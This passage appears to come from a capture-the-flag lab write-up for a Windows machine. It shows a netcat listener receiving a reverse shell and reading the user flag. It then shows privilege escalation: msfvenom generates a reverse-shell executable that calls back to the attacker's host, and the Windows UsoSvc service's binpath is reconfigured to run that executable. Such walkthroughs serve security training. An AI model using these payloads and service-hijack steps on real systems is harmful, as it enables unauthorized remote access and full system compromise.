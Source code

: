 ```bash
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.31] from (UNKNOWN) [10.10.10.180] 50044
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv> cd \Users\Public
c:\Users\Public>type user.txt
type user.txt
ff29cde*************************
```

And there's our user flag.

## Privilege Escalation

Let's generate a reverse shell using metasploit and format it as an `exe` file.

```bash
$ msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.31 lport=1235 -f exe --platform windows > reverse.exe
```

Then move this over by modifying `exploit-stage-1.py` and using the same technique as before.

Then, we want to replace the `binpath` of a service that has two important properties with the path to our reverse shell executable. These two properties are:

1. I must have permissions to change its configuration.
2. It must have `NT AUTHORITY` security context.

```batch
C:\windows\system32> wmic service where started=true get name, startname
...
UsoSvc        NT AUTHORITY\LocalService
...

C:\windows\system32>sc stop UsoSvc
sc stop UsoSvc

SERVICE_NAME: UsoSvc
        TYPE               : 30  WIN32
        STATE              : 3  STOP_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x3
        WAIT_HINT          : 0x7530

C:\windows\system32>sc config usosvc binpath="C:\Windows\Temp\reverse.exe"
sc config usosvc binpath="C:\Windows\Temp\reverse.exe"
[SC] ChangeServiceConfig SUCCESS

C:\windows\system32>sc start usosvc
```

